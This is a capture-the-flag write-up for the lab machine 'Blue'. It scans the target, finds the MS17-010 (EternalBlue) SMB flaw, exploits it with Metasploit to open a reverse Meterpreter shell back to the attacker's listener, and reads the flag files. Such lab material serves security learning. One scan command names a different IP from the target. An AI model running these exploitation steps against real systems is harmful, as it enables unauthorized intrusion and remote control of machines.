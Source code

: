 
# Blue

We create a working directory named "Blue" to organize our files and findings:

```ruby
mkdir Blue
```

## Port Scanning

We ping the target IP (10.10.10.40) to confirm connectivity

```ruby
ping 10.10.10.40
```

The Time To Live (TTL) of 127 indicates it's likely a Windows machine.

### Nmap Scan

We use Nmap to perform a comprehensive port scan, identifying open ports.

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```


```ruby
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49157/tcp open  unknown      syn-ack ttl 127

```

A more detailed scan is then run on the discovered open ports.

```ruby
nmap --script=firewall-bypass -p135,139,445,49152,49153,49154,49155,49157 -vvv -oN targeted 10.10.10.40
```

```ruby

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

The scan reveals the machine is vulnerable to MS17-010 (EternalBlue).


## Exploiting MS17-010

We use Metasploit to exploit the MS17-010 vulnerability.


```ruby
searchsploit ms17-010
```

We find:

``` ruby
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14   average  Yes
```

The `exploit/windows/smb/ms17_010_eternalblue` module is selected.
We set our local host (LHOST) and remote host (RHOSTS) IP addresses.

```ruby
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg LHOST 10.10.14.13
LHOST => 10.10.14.13

msf6 exploit(windows/smb/ms17_010_eternalblue) > setg RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
```
The exploit is executed, successfully giving us a Meterpreter session.

```ruby 
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
.....
[*] Meterpreter session 2 opened (10.10.14.13:4444 -> 10.10.10.40:49164) at 2023-06-28 09:20:26 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
We use the Meterpreter shell to navigate the compromised system.

```ruby
meterpreter > ls
Listing: C:\Windows\system32
...
```

### Improving the Shell

To get a more familiar Windows command prompt, we execute `cmd.exe` through Meterpreter.

```ruby 
meterpreter > execute -c -f cmd.exe -H -i -d
```

This gives us a Windows-like shell.

```ruby 
Process 1820 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```


#### Flag Hunting

We use the `dir` command with specific parameters to search for `user.txt` and `root.txt` files.

```ruby
dir /s /b root.txt user.txt
```
The flags are located in the Desktop folders of the 'haris' and 'Administrator' users respectively.
 
```ruby
C:\Users\Administrator\Desktop\root.txt
C:\Users\haris\Desktop\user.txt
```
We use the `type` command to read the contents of these files, revealing the flags.

```ruby 
type C:\Users\Administrator\Desktop\root.txt
```
